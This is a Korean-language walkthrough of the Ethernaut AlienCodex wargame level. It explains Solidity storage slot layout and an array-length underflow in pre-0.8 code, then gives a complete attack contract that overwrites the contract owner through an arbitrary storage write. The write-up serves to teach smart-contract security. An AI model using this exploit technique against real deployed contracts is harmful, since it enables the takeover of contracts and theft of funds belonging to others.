

## 문제
### 지문
You've uncovered an Alien contract. Claim ownership to complete the level.
Things that might help
Understanding how array storage works
Understanding ABI specifications
Using a very underhanded approach
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
## 배경지식

---

문제 컨트랙트는 `Ownable`을 상속한다. `Ownable-05.sol`에서는 `_owner`가 상태변수로 먼저 선언되어 있다.
```solidity
contract Ownable {
    address private _owner;

    constructor() internal {
        _owner = msg.sender;
    }

    function owner() public view returns (address) {
        return _owner;
    }
}
```
상속이 있으면 base contract의 상태변수가 먼저 배치되고, 그 다음에 child contract의 상태변수가 배치된다. 예를 들어 다음과 같다고 하자.
```solidity
contract A {
    uint256 public a;   // slot 0
}

contract B is A {
    uint256 public b;   // slot 1
}

contract C is B {
    uint256 public c;   // slot 2
}
```
`C`에서는 `a`, `b`, `c` 순서대로 슬롯이 배정된다. `AlienCodex`에서도 `Ownable`의 `_owner`가 먼저 들어간다.
다만 storage layout에서 한 가지를 더 봐야 한다. `address`는 20바이트, `bool`은 1바이트라서 둘 다 32바이트 슬롯 하나에 같이 packed될 수 있다. 실제로 `makeContact()` 전후의 slot 0을 보면 `contact`가 slot 1이 아니라 slot 0 안에서 바뀐다.
```javascript
await web3.eth.getStorageAt("0x1a9eDfD05c3687AeD6Bb36B86C657c1c8307fbc3", 0)
// '0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'

await contract.makeContact()

await web3.eth.getStorageAt("0x1a9eDfD05c3687AeD6Bb36B86C657c1c8307fbc3", 0)
// '0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11'
```
즉 이 문제의 실제 storage layout은 대략 다음처럼 보면 된다.
```plain text
slot 0: contact + _owner
slot 1: codex.length
keccak256(abi.encode(1)) + i: codex[i]
```

---

동적 배열은 배열의 길이와 실제 원소가 같은 위치에 저장되지 않는다. 배열 변수가 slot `p`에 있다면 slot `p`에는 배열의 길이가 저장되고, 실제 원소는 다음 위치부터 저장된다.
```solidity
arr[i] storage slot = keccak256(abi.encode(p)) + i (mod 2^256)
```
여기서 `mod 2^256`이 붙는 이유는 EVM storage slot 인덱스가 `uint256` 범위 안에서 표현되기 때문이다. 따라서 배열 길이를 매우 크게 만들 수 있으면, `i`를 조절해서 원래 배열 영역이 아닌 임의의 slot까지 덮어쓸 수 있다.
이 문제에서는 `codex`가 slot 1에 있으므로 `codex[i]`의 실제 저장 위치는 다음과 같다.
$$
keccak256(abi.encode(1)) + i \equiv targetSlot \pmod {2^{256}}
$$
우리가 덮어쓰고 싶은 곳은 `_owner`가 들어있는 slot 0이다. 따라서 다음을 만족하는 `i`를 찾으면 된다.
$$
keccak256(abi.encode(1)) + i \equiv 0 \pmod {2^{256}}
$$
이 조건을 만족하는 `i`는 다음 값이다.
$$
i = 2^{256} - uint256(keccak256(abi.encode(1)))
$$
Solidity 코드로는 `type(uint256).max - uint256(keccak256(abi.encode(1))) + 1`로 계산할 수 있다.

---

문제 컨트랙트는 `pragma solidity ^0.5.0`을 사용한다. Solidity 0.8 이전에는 산술 overflow/underflow가 자동으로 revert되지 않는다.
`codex.length`가 0인 상태에서 `retract()`를 호출하면 다음 코드가 실행된다.
```solidity
codex.length--;
```
그러면 0에서 1을 빼면서 revert되지 않고 값이 `uint256` 범위 안에서 순환한다. 결과적으로 `codex.length`는 \$2\^\{256\}-1\$이 된다.
이제 `revise(i, _content)`에서 사실상 모든 `uint256` 인덱스를 사용할 수 있으므로, 위에서 계산한 인덱스로 slot 0을 덮어쓸 수 있다.
## 문제 코드 분석

---

먼저 `contacted` 제한을 보자.
```solidity
modifier contacted() {
    assert(contact);
    _;
}

function makeContact() public {
    contact = true;
}
```
`record`, `retract`, `revise`는 모두 `contacted`를 통과해야 한다. 즉 먼저 `makeContact()`를 호출해서 `contact`를 `true`로 만들어야 한다.
이 제한 자체는 강한 권한 체크가 아니다. 누구나 `makeContact()`를 호출할 수 있기 때문에, 익스플로잇의 첫 단계로 한 번 호출하면 된다.

---

이제 배열 길이를 조작하는 부분을 보자.
```solidity
function retract() public contacted {
    codex.length--;
}
```
`codex`는 처음에 빈 배열이다. `makeContact()` 이후 바로 `retract()`를 호출하면 `codex.length`가 0에서 \$2\^\{256\}-1\$로 underflow된다.
이 값은 slot 1에 저장된다. 실제로 `retract()` 후 slot 1을 읽으면 최대 `uint256` 값이 들어간 것을 볼 수 있다.
```javascript
await contract.retract()

await web3.eth.getStorageAt("0x1a9eDfD05c3687AeD6Bb36B86C657c1c8307fbc3", 1)
// '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```
배열 길이가 최대치가 되었으므로 `revise()`의 인덱스 검사는 사실상 의미가 없어진다.

---

마지막으로 임의 slot 쓰기가 가능한 부분을 보자.
```solidity
function revise(uint256 i, bytes32 _content) public contacted {
    codex[i] = _content;
}
```
`revise()`는 `codex[i]`에 `_content`를 그대로 쓴다. 동적 배열 원소 위치는 `keccak256(abi.encode(1)) + i`이므로, `i`를 잘 고르면 slot 0에 `_content`를 쓸 수 있다.
slot 0의 하위 20바이트에는 `_owner`가 들어있다. 따라서 `_content`의 하위 20바이트가 내 주소가 되도록 만들면 `owner()`가 내 주소를 반환하게 된다.
```solidity
bytes32 myaddr = bytes32(uint256(uint160(msg.sender)));
```
`address`를 바로 `bytes32`로 바꾸는 대신 `uint160 -> uint256 -> bytes32` 순서로 변환한다. 이렇게 하면 주소값이 32바이트 값의 하위 20바이트에 들어간다.
## 풀이
먼저 `makeContact()`로 `contacted` 제한을 통과할 수 있게 만든다. 그 다음 빈 배열 상태에서 `retract()`를 호출해 `codex.length`를 \$2\^\{256\}-1\$로 만든다.
이제 `codex[i]`가 slot 0을 가리키게 만드는 인덱스를 계산한다.
```solidity
uint256 i = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
```
마지막으로 `revise(i, myaddr)`를 호출해서 slot 0의 `_owner` 부분을 내 주소로 덮어쓰면 된다. 대상 ABI를 알고 있으므로 인터페이스를 정의해 `makeContact`, `retract`, `revise`를 순서대로 호출하면 충분하다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlien {
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract Attack {
    IAlien alien;

    constructor(address _addr) {
        alien = IAlien(_addr);
    }

    function attack() public {
        alien.makeContact();
        alien.retract();
        uint256 i = type(uint256).max - uint256(keccak256(abi.encode(1))) + 1;
        bytes32 myaddr = bytes32(uint256(uint160(msg.sender)));
        alien.revise(i, myaddr);
    }
}
```

